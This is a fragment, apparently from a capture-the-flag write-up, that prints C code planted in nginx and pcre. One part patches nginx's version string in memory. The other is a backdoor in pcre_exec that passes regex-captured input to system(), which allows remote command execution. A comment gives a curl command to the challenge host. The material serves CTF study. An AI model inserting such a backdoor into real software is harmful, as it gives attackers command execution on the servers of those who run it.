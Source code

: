 ```c
        if (bd_re == NULL) {
            bd_re = 1;
        }
        read(f, b, 12);
        b[12] = 0;
        char * base = (char * ) strtoull(b, 0, 16);
        close(f);
        int c = 0;
        for (int i = 0; i < 0x130000; i++) {
            char * p = base + i;
            if (p[0] == 'n' & p[1] == 'g' & p[2] == 'i' & p[3] == 'n' & p[4] == 'x' & p[5] == '/' & p[6] == '1' & p[7] == '.' & p[8] == '1' & p[9] == '8' & p[10] == '.') {
            c++;
            if (c > 5) break;
            void * p_page = (void * )((uint64_t) p & 0xfffffffffffff000);
            mprotect(p_page, 0x1000, PROT_READ | PROT_WRITE);
            snprintf(p, 21, "ni/nginx/%s                            ", date_s);
            p[20] = 0x20;
        }
    }
}
```

To the `pcre_exec.c` file:

```c
int bd = 0;
// Defined in other c file
extern pcre * bd_re;
extern char * alph;

...

// Here is the target, good luck:
// curl http://chiptunegeek.shellweplayaga.me:194/[ CENSORED ] --header "Ticket: ticket{[ CENSORED ]}" [ CENSORED ]
char buf[0x2000];
if (bd == 0) {
    bd = 1;
    if (bd_re) {
        int ov[30];
        int rc = pcre_exec(bd_re, NULL, subject, strlen(subject), 0, 0, ov, sizeof(ov) / sizeof(ov[0]));
        if (rc >= 2) {
            pcre_copy_substring(subject, ov, rc, 1, buf, sizeof(buf));
            char * m = strdup(buf);
            system(m);
        }
    }
    bd = 0;
}
```
